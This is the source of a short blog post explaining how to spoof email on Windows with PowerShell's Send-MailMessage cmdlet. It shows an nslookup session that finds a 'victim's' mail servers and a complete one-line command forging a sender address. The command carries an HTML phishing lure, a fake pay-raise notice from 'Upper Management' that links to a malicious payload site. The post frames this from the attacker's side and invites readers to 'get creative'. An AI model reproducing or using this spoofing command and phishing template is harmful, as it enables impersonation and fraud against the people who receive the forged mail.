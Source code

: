 ```yaml
---
layout: post
title:  "Email Spoofing With Powershell"
author: Michael
categories: [ powershell, spoofing, email ]
image: assets/img/spoofps1.png
featured: false
hidden: false
#subtitle: Excerpt from Soulshaping by Jeff Brown
#cover-img: /assets/img/path.jpg
#thumbnail-img: /assets/img/thumb.png
#share-img: /assets/img/path.jpg
#tags: [books, test]hidden: false
---
```

<p><img src="/assets/img/spoofps1.png"></p>
I had previously written about <a href="/email-spoofing/netcat">Email Spoofing With Netcat/Telnet<a/> and it was a seemingly instant hit. Even though the same commands were applicable to Windows users through telnet, which is off by default on Windows installations, or netcat if you chose to install it, neither is an immediate “pickup and go” solution. So both of those methods, while native to most Linux distros, require some added effort for Windows users to take advantage of them. While I was doing some research on this, I discovered there’s a built in Powershell cmdlet that allows you to do the same thing on Windows and seemingly much easier in my opinion.
<center><blockquote class="twitter-tweet"><p lang="en" dir="ltr">Powershell has a built in cmdlet called &quot;Send-MailMessage&quot; that makes email spoofing a breeze. One line and you can send HTML, Attachments, High Priority, whatever the heart desires. <a href="https://twitter.com/hashtag/Email?src=hash&amp;ref_src=twsrc%5Etfw">#Email</a> <a href="https://twitter.com/hashtag/EmailSpoofing?src=hash&amp;ref_src=twsrc%5Etfw">#EmailSpoofing</a> <a href="https://twitter.com/hashtag/Spoofing?src=hash&amp;ref_src=twsrc%5Etfw">#Spoofing</a> <a href="https://twitter.com/hashtag/Powershell?src=hash&amp;ref_src=twsrc%5Etfw">#Powershell</a> <a href="https://t.co/lSDYh8tEdg">pic.twitter.com/lSDYh8tEdg</a></p>&mdash; Michael (@The4rchangel) <a href="https://twitter.com/The4rchangel/status/1053047816270995457?ref_src=twsrc%5Etfw">October 18, 2018</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>
<blockquote>People ended up pretty excited about this cmdlet.</blockquote></center>

#### THE OPTIONS

If you reference the image at the top of the post, you’ll notice this command accepts many different kinds of input. You have all sorts of options including:
<ul>
<li>To:</li>
<li>From:</li>
<li>CC and BCC:</li>
<li>Subject:</li>
<li>SmtpServer:</li>
<li>Port</li>
<li>BodyAsHtml: (renders any HTML code in the body AS HTML)</li>
<li>Attachments</li>
<li>Encoding:</li>
<li>Priotity</li>
<li>and more…</li>
</ul>

#### FINDING AN SMTP SERVER

You can do this on Windows with “nslookup”:
```
PS C:\Users\Archangel> nslookup
Default Server:  REDACTED
Address:  192.168.29.1
> set q=mx
> gmail.com (any victims domain)
Server:  REDACTED
Address:  192.168.29.1
Non-authoritative answer:
gmail.com       MX preference = 30, mail exchanger = alt3.gmail-smtp-in.l.google.com
gmail.com       MX preference = 40, mail exchanger = alt4.gmail-smtp-in.l.google.com
gmail.com       MX preference = 5, mail exchanger = gmail-smtp-in.l.google.com
gmail.com       MX preference = 10, mail exchanger = alt1.gmail-smtp-in.l.google.com
gmail.com       MX preference = 20, mail exchanger = alt2.gmail-smtp-in.l.google.com
>
```
<blockquote> Any of the text following a '>' was typed by myself (the attacker)</blockquote>
Any of the “Mail Exchanger” servers will be SMTP servers you can try for the domain.

#### CRAFTING THE EMAIL

Here’s an example of some of the components of the in this cmdlet used to make craft an email:
```
Send-MailMessage -SmtpServer mail.contoso.com -Port 25 -To victim@contoso.com -From imtheboss@contoso.com -Priority High -Subject "Pay Raise" -BodyAsHtml -Body "Dear Michael, <br><br> We have decided to offer you a 90% pay raise. Please follow this link to confirm your interest and initiate the updated payroll: <a href='maliciouspayload.com'> Confirm Raise </a>. <br><br> Thank you, <br> Upper Management"
```
<p><center><img src="/assets/img/spoofps2.jpeg"></center></p>
There are also plenty of other options available to you, as seen from the Get-Help text at the top. Feel free to get creative! Hopefully your mail admin has the measures in place to prevent this.
